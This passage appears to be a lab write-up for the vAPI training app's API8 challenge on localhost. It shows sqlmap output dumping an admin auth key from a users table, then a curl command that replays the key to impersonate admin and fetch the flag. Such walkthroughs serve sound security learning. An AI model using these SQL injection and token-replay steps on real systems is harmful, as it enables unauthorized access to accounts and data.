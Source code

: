 ```
+----+---------------------------------+----------------------------------+------------------+----------+
| 1  | flag{api8_509f8e201807860d5c91} | oWsZ8vWNuECjCAiZVJHOzsNsNH08zWRZ | z2Eav@j6A:^}fSMe | admin    |
+----+---------------------------------+----------------------------------+------------------+----------+

[14:20:14] [INFO] table 'vapi.a_p_i8_users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/localhost/dump/vapi/a_p_i8_users.csv'
[14:20:14] [WARNING] HTTP error codes detected during run:
403 (Forbidden) - 1 times
[14:20:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/localhost'

[*] ending @ 14:20:14 /2024-06-30/
```
- Observe we are able to see the data of the table, and it contains the authentication key for the admin user (and also the flag for the task)

Admin Authentication Key:
```
oWsZ8vWNuECjCAiZVJHOzsNsNH08zWRZ
```
- We will need the Authentication Key for the "Get Secret" endpoint

# Get Secret
## GET /vapi/api8/user/secret

As specified in the Postman Collection, the test script to be executed for the API8 User Login is used to derive the token (Authorization-Token) by parsing the response JSON data, taking the values of the "authkey" key, and updates it in the Postman Environment as api8_auth.
```js
var jsonData = JSON.parse(responseBody);
var api8_auth = jsonData.authkey;
console.log("API 8 Auth : "+api8_auth);
postman.setEnvironmentVariable("api8_auth",api8_auth);
```

Since we already found the authentication key (authkey) using SQL injection, we can proceed to impersonate the admin user and get the secret.
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: oWsZ8vWNuECjCAiZVJHOzsNsNH08zWRZ' -H $'Host: localhost' \
    $'http://localhost/vapi/api8/user/secret'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 18:28:28 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 18:28:28 GMT
Content-Type: application/json

{"id":1,"username":"admin","secret":"flag{api8_509f8e201807860d5c91}"}
```
